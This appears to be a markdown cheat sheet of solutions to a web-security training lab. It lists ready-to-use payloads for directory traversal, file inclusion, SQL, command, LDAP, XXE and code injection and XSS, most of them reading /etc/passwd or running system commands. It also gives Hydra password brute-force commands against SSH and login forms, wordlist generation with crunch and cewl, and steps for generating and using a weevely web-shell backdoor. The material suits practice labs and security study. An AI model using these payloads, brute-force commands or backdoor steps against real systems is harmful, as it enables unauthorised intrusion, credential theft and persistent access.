 # Phase III: Vulnerbility discovery & Exploitation
### Directory Traversal
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | /var/www/files/../../../etc/passwd |
| example&nbsp;3 | ../../../etc/passwd%00 `Null Bytes Injection` |

### File Include
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | ../../../etc/passwd%00 `Null Bytes Injection` |

### SQL Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | root'+OR+'1'='1, `root'OR+1=1+--` |
| example&nbsp;2 | root'%09OR'1'='1 |
| example&nbsp;3 | root'/**/OR/**/'1'='1 |
| example&nbsp;4 | 2+OR+1=1 |
| example&nbsp;5 | 2+OR+1=1#123 |
| example&nbsp;6 | 2+OR+1=1#123 |
| example&nbsp;7 | 2%0AOR+1=1# |
| example&nbsp;8 | name\`,IF((SELECT+0x61)=0x61%2Cid%2Cage)+%23 |
| example&nbsp;9 | IF((SELECT+0x61)=0x61%2Cid%2Cage), `IF((SELECT'a')='a',id,age)` |

### Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

### LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php `remove all parameter` |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |

### XML attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/xml/example1.php?xml=%3C%21DOCTYPE%20foo%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Ctest%3E%26xxe%3B%3C%2Ftest%3E `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>` |
| example&nbsp;2 | http://10.0.2.4/xml/example2.php?name=hacker%27+or+1=1]%00 `hacker'+or+'1'='1`|

## Hydra
### Secure Shell
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l root
	  ssl://10.0.4.5
	  -f -vVd 
	  -o result.txt
	  -e nsr

### Basic Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-get "/auth"
	  -f
### Form Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-post-form "/login:username=^USER^:password=^PASS^:submit=Login:F=Invalid username"
	  -f

### DVWA Authentication
hydra -l admin -P /usr/share/wordlists/rockyou.txt 	
	  192.168.7.159 http-get-form 
	  "/dvwa/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=Login:F=password incorrect"
	  -f
	  -vVd

### Create WordList
* crunch 4 4 `minimum 4 characters and maximum  4 characters`
* crunch 4 4 -o mywordlist.txt
* crunch 4 4 1234567890 -o mywordlist.txt
* crunch 4 4 -t @%,^ -o mywordlist.txt `@=lowercase characters, %=numbers, ,=uppercase characters, ^=symbols`
* crunch 4 4 -f /usr/share/crunch/charset.lst lalpha -o mywordlist
* cewl -d 2 -m 4 -w test.txt http://www.php.net `-d=depth, -m=minimum word length, -w=write`

### Code Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/codeexec/example1.php?name=hacker".system('uname -a');# |
| example&nbsp;2 | http://10.0.2.4/codeexec/example2.php?order=id);}system('uname%20-a');%2F%2F |

### XSS
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | example1.php?name=%3Cscript%3Ealert(1)%3C%2fscript%3E |
| example&nbsp;2 | example2.php?name=<scri<sCrIpt>pt>alert(1)<%2fscri<%2fScRipt>pt> |
| example&nbsp;3 | example3.php?name=<scri<sCrIpt>pt>alert(1)<%2fscri<%2fScRipt>pt> |
| example&nbsp;4 | example4.php?name=<img src=xxx onerror=alert(1)> |
| example&nbsp;5 | example5.php?name=<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script> |
| example&nbsp;6 | example6.php?name=hacker";alert(1)%2f%2f |
| example&nbsp;7 | example7.php?name=hacker';alert(1)%2f%2f |
| example&nbsp;8 | example8.php/"><script>alert(1)</script> |
| example&nbsp;8 | example9.php/#<script>alert(1)</script> |

## Backdoor
### weevely
 1. weevely generate 1234 /root/hack.php
 2. upload file
 3. weevely http://.../upload/hack.php 123
 4. weevely> help
 5. weevely> :system_info
 6. weevely> :audit_etcpasswd
 7. weevely> :bruteforce_sql